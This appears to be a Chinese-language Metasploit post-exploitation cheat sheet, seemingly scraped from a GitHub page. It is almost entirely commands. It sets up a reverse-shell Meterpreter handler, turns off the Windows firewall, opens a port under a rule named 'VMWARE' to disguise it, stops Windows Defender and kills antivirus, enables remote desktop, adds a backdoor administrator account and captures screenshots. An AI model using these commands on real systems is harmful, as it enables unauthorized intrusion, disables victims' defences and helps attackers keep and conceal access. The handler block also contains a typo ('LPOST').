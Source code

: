 - 配置反弹会话处理程序

  ```msf
  Use exploit/multi/handler
  Set payload windows/meterpreter/reverse_tcp
  Set LHOST 192.168.1.227
  Set LPOST 5555
  Exploit
  ```

  返回shell

**以下操作均是在shell中执行**

### 关闭防火墙

```shell
shell（execute -f cmd -i -H）netsh advfirewall set allprofiles state off netsh advfirewall show allprofiles
```

通过策略添加防火墙规则隐蔽行为：

```shell
netsh advfirewall set add rule name="VMWARE" protocol=TCP dir=in localport=5555 action=allow
netsh firewall add portopening TCP 5555 "VMWARE" ENABLE ALL
```

重启生效

```shell
shutdown -r -f -t 0
```

### 关闭杀毒软件

```shell
#关闭windefend：
net stop windefend
#关闭杀毒软件：
run killav
run post/windows/manage/killav
```

### 打开并连接3389

```shell
#开启3389远程桌面
run post/windows/manage/enable_rdp
run getgui –e
#可以利用该命令，在目标机器上添加用户
run getgui –u admin –p admin
net localgroup administrators admin /add
#远程连接桌面
rdesktop –u username –p password ip
#查看远程桌面
screenshot
use espia
screengrab
screenshare
#删除指定账号
run post/windows/manage/delete_user USERNAME=admin
```
